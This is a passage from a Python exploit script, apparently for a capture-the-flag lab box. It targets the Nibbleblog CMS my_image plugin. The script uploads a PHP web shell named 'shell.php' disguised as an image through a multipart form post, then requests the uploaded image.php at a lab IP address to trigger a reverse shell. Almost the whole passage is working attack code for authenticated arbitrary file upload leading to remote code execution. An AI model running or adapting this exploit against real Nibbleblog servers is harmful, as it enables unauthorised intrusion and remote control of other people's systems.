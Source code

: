 ```
                None,
                b'4',
                '',
                ''
            ),
            'caption': (
                None,
                b'',
                '',
                '',
            ),
            'image':(
                'shell.php',
                payload,
                'application/x-php',
                '',
            ),
            'image_resize':(
                None,
                b'1',
                '',
                '',
            ),
            'image_width':(
                None,
                b'230',
                '',
                '',
            ),
            'image_height':(
                None,
                b'200',
                '',
                '',
            ),
            'image_option':(
                None,
                b'auto',
                '',
                '',
            )
        }

# Upload the image
response = requests.post(payload_url,files=files,headers=headers)
print(response)

# Activate reverse shell
url = "http://10.129.79.148/nibbleblog/content/private/plugins/my_image/image.php"
response = requests.get(url,headers=headers)
print(response)

```
